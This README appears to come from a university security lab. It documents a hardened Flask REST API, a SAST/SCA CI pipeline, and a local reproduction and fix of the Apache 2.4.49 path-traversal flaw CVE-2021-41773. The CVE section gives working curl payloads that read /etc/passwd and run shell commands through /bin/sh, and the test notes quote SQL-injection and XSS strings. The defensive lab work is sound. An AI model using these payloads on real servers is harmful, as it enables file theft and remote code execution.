



# Secure REST API — Flask + CI/CD + CVE-2021-41773 Analysis

Laboratory work #1 (HDU, Information Security).
A small but deliberately hardened REST API, a three-stage security pipeline, and a
full reproduce → analyse → fix → verify cycle on a real CVE inside Vulhub.

| Item | Value |
| --- | --- |
| Language / framework | Python 3.11+ / Flask 3.1 |
| Storage | SQLite (`sqlite3` stdlib, parameterised statements) |
| Auth | JWT (HS256, 15 min TTL) + bcrypt (cost 12) |
| SAST | bandit (fails the build on MEDIUM+) |
| SCA | pip-audit (PyPI / OSV advisory database) |
| CI | GitHub Actions — `.github/workflows/ci.yml` |
| CVE in scope | **CVE-2021-41773** — Apache HTTP Server 2.4.49 path traversal / RCE |

---

## 1. What the service does

Three endpoints were required; a few supporting ones were added so the API is
actually usable and testable.

| Method | Path | Auth | Purpose |
| --- | --- | --- | --- |
| `POST` | `/auth/login` | — | Authenticate `login` + `password`, issue a JWT |
| `GET` | `/api/data` | Bearer | Return the user directory (paginated) |
| `POST` | `/api/posts` | Bearer | **Own design**: create a post owned by the caller |
| `GET` | `/api/posts` | — | Public read-only feed (used to demonstrate output escaping) |
| `GET` | `/api/me` | Bearer | Echo the identity contained in the token |
| `POST` | `/auth/register` | — | Bonus: account creation with the password policy enforced |
| `GET` | `/healthz` | — | Liveness probe for the pipeline |

### Run it

```bash
python -m venv .venv
source .venv/bin/activate           # Windows: .venv\Scripts\activate
pip install -r requirements-dev.txt

flask --app app run --debug         # http://127.0.0.1:5000
```

The database is created and seeded on first start with two demo accounts:

| login | password | role |
| --- | --- | --- |
| `alice` | `Alice-Strong-Pass-1` | user |
| `bob` | `Bob-Strong-Pass-1` | user |

### Call it

```bash
# 1. log in and capture the token
TOKEN=$(curl -s -X POST http://127.0.0.1:5000/auth/login \
  -H 'Content-Type: application/json' \
  -d '{"login":"alice","password":"Alice-Strong-Pass-1"}' | jq -r .access_token)

# 2. protected read
curl -s http://127.0.0.1:5000/api/data -H "Authorization: Bearer $TOKEN"
```

```json
{
  "page": 1,
  "per_page": 20,
  "total": 2,
  "items": [
    {"id": 1, "username": "alice", "role": "user", "created_at": "2026-10-20 11:02:41"},
    {"id": 2, "username": "bob",   "role": "user", "created_at": "2026-10-20 11:02:41"}
  ]
}
```

```bash
# 3. create a post
curl -s -X POST http://127.0.0.1:5000/api/posts \
  -H "Authorization: Bearer $TOKEN" -H 'Content-Type: application/json' \
  -d '{"title":"Hello","content":"first post"}'

# 4. no token -> 401
curl -i http://127.0.0.1:5000/api/data
```

---

## 2. Implemented security measures

### 2.1 SQL injection — parameter binding everywhere

`app/db.py` and `app/routes.py` never build SQL by concatenation. Every value is
bound by the driver:

```python
row = db.execute(
    "SELECT id, username, password_hash, role FROM users WHERE username = ?",
    (username,),          # payload is data, not SQL
).fetchone()
```

There is no f-string, `%` or `.format()` anywhere in a query — which is exactly
the rule the assignment states. `tests/test_auth.py::test_sql_injection_in_login_does_not_bypass_auth`
sends `alice' OR '1'='1`, `alice'--` and `admin' OR 1=1 --`; all three return `401`.

### 2.2 XSS — escaping on output, strict headers

`app/security.py::safe_text()` runs every string field through
`markupsafe.escape()` before it leaves the process; `safe_text` is applied in
`/api/data`, `/api/posts` (both verbs) and `/api/me`.

This is *output* encoding, not input mangling: the database keeps the original
bytes, and the escaping happens at the trust boundary, which is the only place
where the correct context is known. Responses also carry
`X-Content-Type-Options: nosniff`, `X-Frame-Options: DENY`,
`Content-Security-Policy: default-src 'none'; frame-ancestors 'none'`,
`Referrer-Policy: no-referrer` and `Cache-Control: no-store`.

`tests/test_api_security.py::test_xss_payload_is_escaped_in_responses` stores
`<script>alert('xss')</script>` and asserts the response contains
`&lt;script&gt;` and no raw `<script>`.

### 2.3 Broken authentication

* **Hashing** — bcrypt, cost 12, per-password salt. Plaintext is never stored,
  never logged, never returned. SHA-256 was rejected on purpose: it is fast,
  unsalted and therefore cheap to brute-force (see the control question in the
  report).
* **Tokens** — HS256, `exp`/`iat`/`nbf` required, 15-minute lifetime, secret from
  the environment (`JWT_SECRET`), never hard-coded. `decode_token()` pins
  `algorithms=["HS256"]`, which blocks `alg: none` and algorithm-confusion
  forgery (`test_alg_none_token_is_rejected`, `test_token_signed_with_another_key_is_rejected`).
* **Middleware** — `@token_required` guards every protected route; a missing,
  malformed or expired token yields `401` before the view runs.
* **No user enumeration** — unknown user and wrong password return the same
  message *and* roughly the same latency, because a dummy bcrypt check is
  performed when the account does not exist (`dummy_verify`).
* **Brute force** — fixed-window throttle, 5 failures per `(username, IP)` per
  5 minutes, then `429`.
* **Password policy** — 8–128 chars, at least 3 of 4 character classes.

### 2.4 Additional hardening (beyond the minimum)

| Control | Where |
| --- | --- |
| Request body capped at 16 KB → `413` | `MAX_CONTENT_LENGTH` |
| JSON-only for write verbs → `415` | `_json_body()` |
| Control characters and over-long fields rejected → `400` | `clean_str()` |
| Pagination clamped (`per_page` ≤ 50) | `_page_args()` |
| Ownership taken from the token, never from the body | `create_post()` |
| `password_hash` never selected into a response | `routes.py` |
| Generic JSON errors, stack traces only in server logs | `_register_error_handlers()` |
| `PRAGMA foreign_keys = ON` | `db.get_db()` |

---

## 3. CI/CD pipeline

`.github/workflows/ci.yml` runs on every push and every pull request, in three
independent jobs:

1. **`test`** — installs `requirements-dev.txt`, runs `pytest`. 22 tests covering
   auth, authorisation, injection, escaping, throttling and headers.
2. **`sast`** — `bandit -r app -ll`. The job fails on MEDIUM and above, writes a
   SARIF file, uploads it to the repository *Security → Code scanning* tab and
   keeps it as a build artefact.
3. **`sca`** — `pip-audit -r requirements.txt --strict` against the PyPI/OSV
   advisory database; a known-vulnerable dependency fails the build.

`permissions: contents: read` is the workflow default and only the SAST job gets
`security-events: write`, so a compromised action cannot rewrite the repository.
Concurrency cancels superseded runs on the same ref.





### The gate fired on the first push

The initial build failed — not on the tests, on **SCA**. `pip-audit` reported 18
advisories across the two pinned dependencies:

| Package | Version | Example advisory | Fixed in |
| --- | --- | --- | --- |
| `flask` | 3.1.0 | PYSEC-2026-1377, PYSEC-2026-2151 | 3.1.1 / 3.1.3 |
| `pyjwt` | 2.10.1 | PYSEC-2026-120 … PYSEC-2026-4183 (16 advisories) | 2.12.0 – 2.15.0 |



The pins were raised to `Flask==3.1.3`, `PyJWT==2.15.1`, `bcrypt==5.0.0`; the suite
still passed (22 tests) and the next run went green. This is the pipeline doing the
one thing a pipeline is for: catching a stale dependency before a reviewer has to.

---

## 4. CVE analysis — CVE-2021-41773

**Selected vulnerability:** CVE-2021-41773, Apache HTTP Server 2.4.49 —
path traversal (`CWE-22`) escalating to remote code execution when `mod_cgi` is
enabled. CVSS 3.1: **9.8 (Critical)**. Fixed in 2.4.51 (2.4.50 was an incomplete
fix, later tracked as CVE-2021-42013).

**Why this one:** it is a one-line request to reproduce, it produces an
unambiguous before/after artefact (`/etc/passwd` contents), and its root cause is
a genuine engineering lesson — a validation routine that decodes and checks the
path in the wrong order — rather than a simple forgotten check.

**Environment:** Vulhub, `httpd/CVE-2021-41773`, Docker + Docker Compose.

### 4.1 Reproduce

Run on Windows 11 + Docker Desktop (engine 29.9.1, Linux containers).

```bash
git clone --depth 1 --filter=blob:none --sparse https://github.com/vulhub/vulhub.git
cd vulhub && git sparse-checkout set httpd/CVE-2021-41773
cd httpd/CVE-2021-41773 && docker compose up -d --build
docker ps --format 'table {{.Names}}\t{{.Image}}\t{{.Status}}'
```

```bash
# %2e is '.', so this path is ../../../../etc/passwd after decoding
curl -s --path-as-is \
  'http://127.0.0.1:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd' | head -3
```

Observed (HTTP 200):

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```

With `mod_cgi` enabled the same primitive becomes code execution — the body is
piped to the interpreter's stdin, so the first line must be a CGI header:

```bash
curl -s --path-as-is \
  --data 'echo Content-Type: text/plain; echo; id' \
  'http://127.0.0.1:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
```

```text
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

See `docs/CVE-2021-41773-walkthrough.md` for the full transcript, the payload
anatomy, and the eight captured evidence images in `docs/screenshots/`.

### 4.2 Root cause

Apache 2.4.49 rewrote `ap_normalize_path()` while adding a new path-handling
feature. The rewritten function was supposed to (a) percent-decode the request
path, (b) collapse `.` and `..` segments, and (c) reject anything that climbs
above the document root. It performed the traversal check on a partially decoded
string: a `%2e%2e` sequence survived the check as an opaque token and was decoded
to `..` only later, in the file-open call. The ordering — *validate, then decode*
instead of *decode, then validate* — is the entire bug. `ap_normalize_path()`
returned success for a path that still contained an encoded traversal.

Two aggravating factors turned a read primitive into a critical one:

* 2.4.49 changed the default access control for the filesystem root from
  `Require all denied` to `Require all granted`, so traversal reached paths
  outside `DocumentRoot` instead of being blocked by the default policy.
* `mod_cgi` executes whatever path the request resolves to and pipes the request
  body to its stdin, so `/bin/sh` becomes an interpreter for attacker commands.

### 4.3 Fix

```diff
- FROM httpd:2.4.49
+ FROM httpd:2.4.51
```

```apache
# Defence in depth: even a future traversal bug cannot reach the filesystem
<Directory />
    AllowOverride None
    Require all denied
</Directory>
```

and, where CGI is not needed, do not load it (`#LoadModule cgi_module`).

**Why the fix is effective:** 2.4.51 rewrites `ap_normalize_path()` so that the
path is fully decoded *before* the `..` handling, and rejects any request whose
normalised result escapes the configured root. It is not a blacklist of `%2e` —
that approach is defeated by double encoding, which is precisely why 2.4.50
failed. Restoring `Require all denied` removes the second precondition (filesystem
access), and disabling `mod_cgi` removes the third (execution), so the fix holds
even if a further normalisation bug is found.

### 4.4 Verify the fix

The patched build runs beside the vulnerable one — same Dockerfile, only the base
tag differs, so the difference in behaviour is attributable to the version alone.

```bash
curl -s -o /dev/null -w 'HTTP %{http_code}\n' --path-as-is \
  'http://127.0.0.1:8081/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd'
curl -s -o /dev/null -w 'HTTP %{http_code}\n' --path-as-is \
  --data 'echo Content-Type: text/plain; echo; id' \
  'http://127.0.0.1:8081/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
curl -s -o /dev/null -w 'HTTP %{http_code}\n' http://127.0.0.1:8081/
```

Observed:

```text
HTTP 400
HTTP 400
HTTP 200
```

`400`, not `404`: 2.4.51 rejects the request during normalisation, before it
touches the filesystem — the bad path never becomes a path at all. The final
`200` is the regression check.

**Second, independent layer.** The stock `httpd:2.4.49` image keeps
`Require all denied` on `<Directory />`, and the same payload returns `403`
instead of `200` — verified on port 8082. Either control alone contains this CVE;
keeping both contains the next one of the same family.

See `docs/CVE-2021-41773-walkthrough.md` §7 for the measured matrix and
`docs/screenshots/` for the evidence.

---

## 5. Project layout

```text
work1-secure-api/
├── app/
│   ├── __init__.py        # factory, error handlers, security headers
│   ├── config.py          # env-driven configuration, no hard-coded secrets
│   ├── db.py              # schema, connection handling, seeding
│   ├── security.py        # bcrypt, JWT, escaping, validation, throttle
│   ├── auth.py            # /auth/login, /auth/register
│   └── routes.py          # /api/data, /api/posts, /api/me
├── tests/
│   ├── conftest.py        # app/client/token fixtures, token forging helper
│   ├── test_auth.py       # 9 tests
│   └── test_api_security.py  # 13 tests
├── .github/workflows/ci.yml
├── docs/CVE-2021-41773-walkthrough.md
├── requirements.txt / requirements-dev.txt
└── pyproject.toml
```

## 6. Test inventory

```text
$ pytest
tests/test_auth.py           9 tests   auth, SQLi, throttling, body limits, policy
tests/test_api_security.py  13 tests   JWT enforcement/forgery, XSS, leakage, headers
------------------------------------------------------------------------------
22 tests
```

Each test name states the property it protects, so a failure in CI reads as a
regression of a specific control rather than "something broke".

## 7. Known limitations

* The login throttle is in-process; a multi-worker deployment would need Redis to
  share counters.
* Tokens cannot be revoked before expiry — a production system needs a `jti`
  deny-list or short-lived tokens plus refresh tokens.
* The public feed `/api/posts` is unauthenticated by design; a real service would
  add rate limiting there too.
* SQLite is used for portability; PostgreSQL with the same parameterised
  statements is the production path.
